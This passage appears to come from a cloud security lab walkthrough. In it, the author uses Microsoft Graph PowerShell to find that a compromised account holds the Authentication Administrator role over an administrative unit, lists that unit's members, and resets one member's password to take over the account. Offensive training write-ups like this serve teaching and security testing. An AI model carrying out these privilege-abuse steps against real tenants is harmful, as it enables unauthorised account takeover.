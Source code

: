 Now let's retrieve which role the `RoleId: ccb673b7-ab87-4fc0-87c5-39751a049539` corresponds to.
```
$roleId = "ccb673b7-ab87-4fc0-87c5-39751a049539"
$directoryRoles = Get-MgDirectoryRole | Where-Object { $_.Id -eq $roleId }
$directoryRoles | Format-List *
```
```
└─PS> $directoryRoles | Format-List *

DeletedDateTime      : 
Description          : Allowed to view, set and reset authentication method information for any non-admin user.
DisplayName          : Authentication Administrator
Id                   : ccb673b7-ab87-4fc0-87c5-39751a049539
Members              : 
RoleTemplateId       : c4e39bd9-1100-46d3-8c65-fb160da0071f
ScopedMembers        : 
AdditionalProperties : {}
```

The Microsoft [documentation](https://learn.microsoft.com/en-us/entra/identity/role-based-access-control/permissions-reference#authentication-administrator) reveals that this is a privileged role that has the ability to set passwords for non-administrators. It's not possible to get the value of user passwords in Azure. Let's query members of the administrative unit.
```
└─PS> Get-MgDirectoryAdministrativeUnitMember -AdministrativeUnitId 47e4803e-a5ef-4ebc-b967-691815870abd | Select * -ExpandProperty additionalProperties                                                                                    

Key               Value
---               -----
@odata.type       #microsoft.graph.user
businessPhones    {}
displayName       Daiki Hiroko
givenName         Daiki
jobTitle          Mid Developer
surname           Hiroko
userPrincipalName Daiki.Hiroko@megabigtech.com

```

Bsaed on that, the user `dbuser@megabigtech.com` has been assigned the `Authentication Administrator` role at the level of the administrative unit `Megabigtech-UNIT1`, and we know that `Daiki.Hiroko@megabigtech.com` is member of this administrative unit. This means that as `dbuser` we are able to change the password for `Daiki Hiroko`. Let's set a new password for Daiki Hiroko. Note that this is a disruptive action and not the best `opsec`, and should only be attempted if there are no alternative paths.
```
$passwordProfile = @{
    forceChangePasswordNextSignIn = $false
    forceChangePasswordNextSignInWithMfa = $false
    password = "Password12345!!"
}
```
```
└─PS> Update-MgUser -UserId 'Daiki.Hiroko@megabigtech.com' -PasswordProfile $passwordProfile
```
